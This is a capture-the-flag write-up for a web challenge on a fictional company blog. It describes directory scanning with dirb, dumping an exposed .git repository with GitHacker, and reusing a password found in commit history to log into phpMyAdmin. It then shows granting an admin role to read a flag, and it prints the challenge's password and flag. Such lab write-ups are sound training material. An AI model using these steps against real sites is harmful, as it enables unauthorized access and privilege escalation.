

# Blog site (4)

Hi, packet inspector,

a simple blog webpage was created where all employees can write their suggestions for improvements. It is one part of the optimization plan designed by our allmighty AI.

Examine the web [http://blog.mysterious-delivery.tcc:20000/](http://blog.mysterious-delivery.tcc:20000/) and find any interesting information.

May the Packet be with you!

## Hints

- Use VPN to get access to the web.
- Any employee of Mysterious Delivery, Ltd. can contribute to the blog – do not trust any information (notably flags) appearing in posts.

## Solution

### Web enumeration

After a quick lookup, the page is [flaskr (flask example blog)](https://github.com/pallets/flask/tree/main/examples/tutorial/flaskr).

Some people have tried [jinja template injection](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) but it was unsuccessful. Which is logical, the flag will probably not be publicly visible to all solvers.


The [/settings](http://blog.mysterious-delivery.tcc:20000/settings) page is forbidden. I'm guessing the flag will be here.


Let's scan this site with dirb, maybe we'll find something special ;).

```
> dirb http://blog.mysterious-delivery.tcc:20000/ /usr/share/wordlists/dirb/common.txt

+ http://blog.mysterious-delivery.tcc:20000/.git/HEAD (CODE:200|SIZE:23)
+ http://blog.mysterious-delivery.tcc:20000/create (CODE:302|SIZE:209)
+ http://blog.mysterious-delivery.tcc:20000/hello (CODE:200|SIZE:13)
==> DIRECTORY: http://blog.mysterious-delivery.tcc:20000/phpmyadmin/
+ http://blog.mysterious-delivery.tcc:20000/settings (CODE:302|SIZE:209)
```

We found `.git` and `phpmyadmin` directories. We need login credentials for `phpmyadmin`, which we don't have yet. But what about `.git`? That looks pretty sus.

### Investigating git directory

/.git/HEAD

```
ref: refs/heads/master
```

/.git/config

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	name = Jozef Dev
	email = jozef.dev@attendance.ttc
```

There is also index file, let's use [GitHacker](https://github.com/WangYihang/GitHacker) tool to restore the entire git repository.

```
> githacker --url http://blog.mysterious-delivery.tcc:20000/.git/ --output-folder result

...
INFO Downloading basic files...
INFO [73 bytes] 200 .git/description
INFO [23 bytes] 200 .git/HEAD
INFO [18 bytes] 200 .git/COMMIT_EDITMSG
INFO [2619 bytes] 200 .git/index
INFO [5523 bytes] 200 .git/logs/HEAD
INFO [240 bytes] 200 .git/info/exclude
INFO [41 bytes] 200 .git/ORIG_HEAD
INFO Downloading head files...
INFO [192 bytes] 200 .git/objects/ad/8a16703a1102d9550525ebfcfd97d1f4349664
INFO [246 bytes] 200 .git/objects/d9/5803cb9777c66154b086a7f8c3232b85dc5749
INFO [180 bytes] 200 .git/objects/f4/3eb707fe11f5b58757e683e27687f63fc03556
INFO [199 bytes] 200 .git/objects/30/919e78222d434003949ed3803b0163d34a0bb0
INFO [187 bytes] 200 .git/objects/5a/5646d360662d8b596e03034a5d686cb4fc70da
INFO [123 bytes] 200 .git/objects/a7/96306a74457bf81f52f7b8d45a20997b68d92d
INFO [186 bytes] 200 .git/objects/46/15dee75de7f414211d935419f4f71cc11f0b30
INFO [143 bytes] 200 .git/objects/b0/6b989ab11e9a9b1d9075eb35988f995e16d50d
INFO [199 bytes] 200 .git/objects/3a/a17a01a4494a031e666f6de8b2dce2fff9d928
INFO [190 bytes] 200 .git/objects/7e/4a77ab036cbc04fe7d800d1d07b52be6bb0942
INFO [168 bytes] 200 .git/objects/f5/407ad8e35263b631e5fc50552b27c6cab63a07
INFO [186 bytes] 200 .git/objects/76/5c9b10d132371585efddd968a5296ed4a8e6df
INFO Downloading blob files...
INFO [800 bytes] 200 .git/objects/9d/227a0cc43c3268d15722b763bd94ad298645a1
INFO [112 bytes] 200 .git/objects/85/a35845adb3903826fa5d8a6409796dc576c327
INFO [47 bytes] 200 .git/objects/73/c76f23a8df2b7418acfc7a1d7c0c2b6c4fad31
INFO [74 bytes] 200 .git/objects/5b/e56f120dfe89249160f547ca762bc264bd9ba1
INFO [102 bytes] 200 .git/objects/97/d55d517eb21005d9abda1bf327ead3cab44756
INFO [670 bytes] 200 .git/objects/41/f3f6ba716aa3630f7d68605bfc0685d5d7986e
INFO [859 bytes] 200 .git/objects/92/84bc87ebd9091d749802e547033687d8671be4
INFO [62 bytes] 200 .git/objects/43/8ffb52cde6714ce8556840def949f54a61295b
INFO [1308 bytes] 200 .git/objects/c8/bdc58996bcb898424288739b4019b4bbd70b63
INFO [1264 bytes] 200 .git/objects/a3/bd32f45aa45dbce78387c8ee1a01863af21306
INFO [713 bytes] 200 .git/objects/e6/4c86f1bf98d4fcedbc914f8a0081d662ff76b2
INFO [242 bytes] 200 .git/objects/bb/70c6272fd428ab652aeec640365de08917c86f
...
```

Let's search for code changes using Git Kraken.



Ok, we have confirmed that there will be a flag on [/settings](http://blog.mysterious-delivery.tcc:20000/settings).


We can also notice that we need our user account to have an admin role.


`56843437e5c747a2c9c08e4b79f109c3` looks like password for phpmyadmin, but we can't log in with username `ctfb5`.


In next commit we can see, that the username was changed to `attendance`.


Well, let's try username `attendance` and password `56843437e5c747a2c9c08e4b79f109c3` to log in.

It works! Now I'll just set admin role on my user account.


We should have rights to access [/settings](http://blog.mysterious-delivery.tcc:20000/settings).


And we have!

`FLAG{gDfv-5zlU-spVN-D4Qb}`
